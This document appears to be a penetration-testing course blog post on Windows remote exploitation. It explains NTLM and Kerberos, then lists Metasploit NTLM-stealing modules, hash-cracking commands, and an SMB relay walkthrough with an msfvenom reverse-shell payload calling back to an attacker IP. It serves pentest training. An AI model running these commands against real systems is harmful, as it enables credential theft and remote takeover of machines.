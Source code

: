 ```yaml
---
layout: post
published: true
title: Windows Exploitation 11.2
tags:
  - PWP
  - Intermediate
  - Windows Exploitation
comments: true
---
```

## Windows Remote Exploitation


## Introduction


**_In this blog post, we will learn the Windows Remote Exploitation techniques and Approaches to engage with a target.
We will also look for examples and usage of tools._**

_Some Approaches we have already discussed in linux exploitation modules_


**Lower Hanging Fruits**

**We have discussed Low Hanging Fruits Approaches in Linux Exploitation module, the approach is also same for windows, please have a look on that blog post .**
[https://mrw0r57.github.io/2020-05-30-linux-exploitation-9-1/]


**Remote Exploitation of Windows Network**

The exploitation process in which attacker exploit's the listening services on the target network, and tries to get access on the target system.




**Windows Authentication**

Windows uses two types authentication protocols for clients and server authentication, NTLM and kerberos.


**NTLM**

NTLM(New Technology LAN Manager) is the authentication protocol used on networks that include systems running the Windows operating system and on stand-alone systems.

**How NTLM Works?**

1.  A user accesses a client computer and provides a domain name, user name, and password. The client computes a cryptographic hash of the password and discards the actual password.

2.  The client send the username to the server to authenticate itself.

3.  Then server generates a 16-byte random number, called a challenge or nonce, and sends it to the requested client.

4.  After that client encrypts this challenge with the hash of the user's password and sends the response of the result to the server. 

5.  Then server sends, user name, challenge sent to the client, response received from the client, to the domain controller(Authentication Server).

6.  The domain controller uses the user name to retrieve the hash of the user's password from the SAM (Security Account Manager) database. It uses this password hash to encrypt the challenge.

7.  Then DC compares the encrypted challenge it computed (in step 6) to the response computed by the client (in step 4). If they are identical, authentication is successful for the client system.

[Check For More](https://en.wikipedia.org/wiki/NT_LAN_Manager#NTLMv2)
[LM/NT hashes](http://www.adshotgyan.com/2012/02/lm-hash-and-nt-hash.html)

**Kerberos**

Windows domains use kerberos as the underlying protocol for SSO. A user can log on to the domain at the beginning of the workday, and the system uses the same credentials to access any resources in the domain.
Kerberos is also used by unix systems nowdays


**How Kerberos Works?**

1.  A user accesses a client computer sends an authentication request to the Kerberos server including user login ID.

2.  The authentication server reply including encrypted symmetric key and time-stamped ticket-granting ticket (TGT)

3.  Then the client sends network authentication request including TGT and name of target server, for exapmle MS Active Directory.

4.  After that kerberos server reply including session ticket for use with target server

5.  The client presents time-stamped session ticket to the target server as authentication

6.  Finally, Target server provides authentication back to client.

Authenticaton Successfull!!

[Check For More](https://en.wikipedia.org/wiki/Kerberos_%28protocol%29)

**[Also have a look on Windows Security Identifiers (SID)](https://support.microsoft.com/en-us/help/243330/well-known-security-identifiers-in-windows-operating-systems)** Important.



**Some NTLM Stealing Metasploit Modules** 


auxiliary/admin/mssql/mssql_ntlm_stealer

``
auxiliary/admin/mssql/mssql_ntlm_stealer
``

Oracle SMB Relay Code Execution

``
auxiliary/admin/oracle/ora_ntlm_stealer
``

Host Information Enumeration via NTLM Authentication

``
auxiliary/scanner/http/ntlm_info_enumeration
``

SMTP NTLM Domain Extraction

``
auxiliary/scanner/smtp/smtp_ntlm_domain 
``

**WinRM Login Utility**

This module attempts to authenticate to a WinRM service.

``
auxiliary/scanner/winrm/winrm_login
``

**To crack NTLM hash **

There are many techniques to crack NTLM hash


John Hashes Formats [http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats]

``
john --format=netlm hashpwd_netntlm
``

**Using Rainbow Tables To Crack Hash**

rcracki_mt

[https://github.com/foreni-packages/rcracki_mt]

Download rainbow tables

[http://project-rainbowcrack.com/table.htm]
[http://ophcrack.sourceforge.net/tables.php]

``
rcracki_mt -h 1f548398f0f49ea1 -t 4 *.rti
``

* -h is used to specify the first 8-bytes of the LMHASH
* -t is the number of threads to use
* *.rti is the path of the downloaded rainbow tables


** Suppose if you found only half of the password**


In ''ls /usr/share/metasploit-framework/tools/password''

There is tool also which can also use for this purpose known as ruby halflm_second.rb.

``
ruby halflm_second.rb -n 1f548398f0f49ea18e2f0dcb9562b75eaa32e75aebf1d69c -p HALFPSWD
``

To convert  the result into case sensitive password

``
perl netntlm.pl -file /root/hashpwd_netntlm -seed FULLHALFPSWD
```



**SMBRelay Attack**

Its a kind of Man in The Middle attack in which attacker relay SMB authentication requests to another host, gaining access to an authenticated SMB session if successful.


Metasploit Module for this purpose

```
msfconsole
use exploit windows/smb/smb_relay
msf5 exploit(windows/smb/smb_relay) > info
```
**Read about this module by info command on metasploit**


Another Exploit for SMBRelay, [Click Here](https://www.exploit-db.com/exploits/7125)

**You can also use Impacket's smbrelayx.py for this purpose.**

**smbrelayx.py:** Exploit for CVE-2015-0005 using a SMB Relay Attack. If the target system is enforcing signing and a machine account was provided, the module will try to gather the SMB session key through NETLOGON.

Using Msfvenom create windows reverse tcp .exe payload in order to work with smbrelayx.py

``
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackerIP> LPORT=<Port> -f exe -o hacker.exe
``

Start Metasploit Multi/handler in Attacker Machine
``
set exploit/multi/handler
``
Set the options and use smbrelayx.py


``
smbrelayx.py -h <TargetIP> -e /home/hacker.exe
``


To check and use another windows vulnerability's exploit

Run command below in msfconsole

``
show exploits windows
``



## Conclusion

**_We have discussed basic exploitation of windows systems, and we have already discussed some approaches in previous phases, 
Exploitation is all depends on the previous phases of pentesting_** 
